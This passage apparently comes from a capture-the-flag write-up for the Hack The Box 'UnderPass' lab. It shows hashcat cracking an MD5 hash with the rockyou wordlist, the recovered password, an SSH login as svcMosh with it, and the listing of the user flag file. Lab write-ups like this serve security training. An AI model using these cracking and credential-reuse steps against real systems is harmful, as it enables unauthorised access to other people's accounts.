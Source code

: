 ```console
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 412dd4759978acfcc81deab01b382403
Time.Started.....: Sat Jun 14 17:38:11 2025 (2 secs)
Time.Estimated...: Sat Jun 14 17:38:13 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1689.8 kH/s (0.19ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2985984/14344385 (20.82%)
Rejected.........: 0/2985984 (0.00%)
Restore.Point....: 2983936/14344385 (20.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: underwear63 -> unc112886
Hardware.Mon.#1..: Util:  0%

Started: Sat Jun 14 17:38:10 2025
Stopped: Sat Jun 14 17:38:15 2025
```
I am now able to login to ssh with the credentials `svcMosh:underwaterfriends`.
```console
┌──(kali㉿kali)-[~/htb/underpass/writeup]
└─$ ssh svcMosh@underpass.htb
svcMosh@underpass.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Jun 14 09:41:53 PM UTC 2025

  System load:  0.0               Processes:             226
  Usage of /:   58.2% of 6.56GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Sat Jan 11 13:29:47 2025 from 10.10.14.62
svcMosh@underpass:~$
```
The user `svcMosh` grants access to the user flag on the box.
```console
svcMosh@underpass:~$ ls -l
total 4
-rw-r----- 1 root svcMosh 33 Jun 13 19:30 user.txt
svcMosh@underpass:~$ cat user.txt |wc
      1       1      33
```
